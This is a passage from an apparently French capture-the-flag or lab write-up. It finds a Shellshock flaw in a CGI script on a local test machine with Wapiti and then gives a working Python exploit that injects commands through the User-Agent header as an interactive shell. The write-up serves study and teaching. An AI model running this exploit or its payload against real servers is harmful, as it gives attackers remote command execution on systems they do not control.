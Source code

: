 ```plain
<iframe frameborder=0 width=800 height=600 src="/cgi-bin/cat"></iframe>

</div>
</body>
</html>
```

La page du CGI affiche une série de lignes qui proviennent de toute évidence de commandes Unix.  

CGI ? Et si on retentait notre chance avec *Shellshock* (c'est à la mode), cette fois en mode web :  

```plain
$ ./bin/wapiti http://192.168.1.63:591/ -m shellshock
Wapiti-2.3.0 (wapiti.sourceforge.net)

 Note
========
Le scan a été sauvegardé dans le fichier /home/devloop/.wapiti/scans/192.168.1.63_591.xml
Vous pouvez l'utiliser pour lancer de futures attaques sans avoir à relancer le scan via le paramètre "-k"
[*] Chargement des modules :
         mod_crlf, mod_exec, mod_file, mod_sql, mod_xss, mod_backup, mod_htaccess, mod_blindsql, mod_permanentxss, mod_nikto, mod_delay, mod_buster, mod_shellshock

[+] Lancement du module shellshock
URL http://192.168.1.63:591/cgi-bin/cat seems vulnerable to Shellshock attack !

Rapport
------
Un rapport a été généré dans le fichier /home/devloop/.wapiti/generated_report
Ouvrez /home/devloop/.wapiti/generated_report/index.html dans un navigateur pour voir ce rapport.
```

[Le module Shellshock que j'ai écrit pour Wapiti](http://devloop.users.sourceforge.net/index.php?article109/wapiti-modules-shellshock-et-buster) (version de dév dispo via SVN) a trouvé une faille.  

En jouant un peu avec la vulnérabilité on remarque que la variable d'environnement *PATH* est très importante dans l'exploitation. Par exemple si on lance *which wget* en ayant spécifié le chemin complet de *which* :  

```plain
/usr/bin/which: no wget in ((null))
```

Partant là dessus j'ai écrit l'exploit suivant :  

```python
import requests
import sys

empty_func = "() { :;}; "
url = sys.argv[1]

while True:
    inject = raw_input("$ ")
    if inject.strip() == "exit":
        break
    cmd = "echo; echo; PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin:/usr/local/sbin " + inject + ";"
    hdrs = {"user-agent": empty_func + cmd}
    r = requests.get(url, headers=hdrs)
    print r.content
```
